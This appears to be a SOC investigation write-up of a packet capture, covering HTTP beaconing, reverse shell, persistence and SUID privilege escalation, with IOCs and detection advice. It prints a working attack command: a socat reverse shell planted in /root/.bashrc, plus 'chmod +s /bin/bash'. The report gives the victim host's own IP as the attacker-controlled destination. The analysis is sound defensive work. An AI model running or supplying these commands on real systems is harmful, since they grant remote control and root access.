



# SOC Investigation: HTTP Beaconing & Reverse Shell Activity Analysis (PCAP)

## Executive Summary
This project documents a network forensic investigation performed on a packet capture (PCAP) file containing suspicious HTTP traffic originating from internal host 192.168.1.180.

The analysis identified abnormal HTTP request behavior consistent with automated beaconing activity, followed by evidence of **remote command execution, reverse shell establishment, persistence mechanisms, and potential privilege escalation attempts.** The objective of this investigation was to reconstruct attacker activity, identify indicators of compromise (IOCs), and determine detection and mitigation strategies applicable to enterprise SOC environments.

---

## Tools Used
* **Wireshark** (Network Traffic Analysis)
* **TCP Stream Analysis**
* **HTTP Protocol Filtering**
* **Linux Shell Payload Analysis**
* **Base64 Decoding** (Data Exfiltration Review)

---

## Observed Anomalous Behavior
Initial inspection of the PCAP revealed abnormal network activity from the internal host:
* **Source IP:** '192.168.1.180'
* **Traffic Pattern:** High-frequency HTTP GET requests to external endpoints.
* **Consistency:** Repetitive outbound patterns inconsistent with normal human browsing behavior (indicating automated beaconing).

Further analysis of TCP streams revealed embedded command execution activity within the HTTP sessions.

---

## Attack Analysis & Reconstruction

### 1. Suspicious Command Execution

TCP stream inspection revealed the execution of a Linux-based reverse shell and persistence mechanism:

'''bash
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && \
echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && \
chmod +s /bin/bash'''

### 2. Reverse Shell Activity
The command confirms the establishment of an interactive remote session:
* **Tool:** Use of socat to redirect the shell.
* **C2 Destination:** Targeted communication to an attacker-controlled host on port **1337**.
* **Payload:** Execution of /bin/sh providing remote command execution capability.

### 3. Persistence Mechanism
Persistence was achieved by modifying the **/root/.bashrc** file. This ensures the reverse shell command executes automatically every time a shell session is initialized, maintaining access even after reboots.

### 4. Data Obfuscation
The presence of a reversed encoded string suggests an attempt to obfuscate the payload or hide embedded data from simple string-based detection signatures:

### 5. Privilege Escalation Attempt
The command **chmod +s /bin/bash** indicates a critical security impact. By setting the **SUID bit** on the bash binary, the attacker attempted to create a backdoor that allows any user to execute the shell with **root-level privileges**.

---

## MITRE ATT&CK Mapping

| Tactic | Technique | Description |
| :--- | :--- | :--- |
| **Initial Access** | T1071 | Application Layer Protocol (HTTP-based communication) |
| **Execution** | T1059 | Command and Scripting Interpreter (Linux shell execution) |
| **Persistence** | T1546 | Event Triggered Execution (.bashrc modification) |
| **Privilege Escalation** | T1548 | Abuse of SUID permissions |
| **Command & Control** | T1071.001 | Web-based C2 communication |

---

## Indicators of Compromise (IOCs)
* **Internal Host:** 192.168.1.180
* **Reverse Shell Port:** 1337
* **Malicious Process:** socat
* **File Modifications:** /root/.bashrc
* **Binary Perms:** /bin/bash (SUID bit set)

---

## Detection Opportunities

### Network-Based Detection
* Alert on excessive HTTP GET requests from a single internal host to external IPs.
* Identify outbound connections on non-standard ports (e.g., TCP 1337).
* Signature-based detection for "socat" or "EXEC:sh" strings within TCP streams.

### Endpoint-Based Detection
* Monitor for unauthorized execution of the socat binary.
* Audit modifications to shell profile files (.bashrc, .profile).
* Alert on chmod +s commands targeting system binaries.

---

## Mitigation & Remediation
* **Endpoint Hardening:** Monitor and restrict modifications to shell initialization files. Disable unnecessary SUID permissions on system binaries.
* **Network Security:** Implement egress filtering to block unauthorized outbound traffic on non-standard ports.
* **Identity & Access:** Enforce the Principle of Least Privilege (PoLP) and monitor for unauthorized root-level escalations.
* **Monitoring:** Enable File Integrity Monitoring (FIM) for critical system paths.

---

## Conclusion
This investigation highlights how network-level anomalies (beaconing) often precede deep-system compromise. Layered detection strategies—combining network monitoring with endpoint telemetry are essential to identifying and mitigating modern persistence and privilege escalation techniques.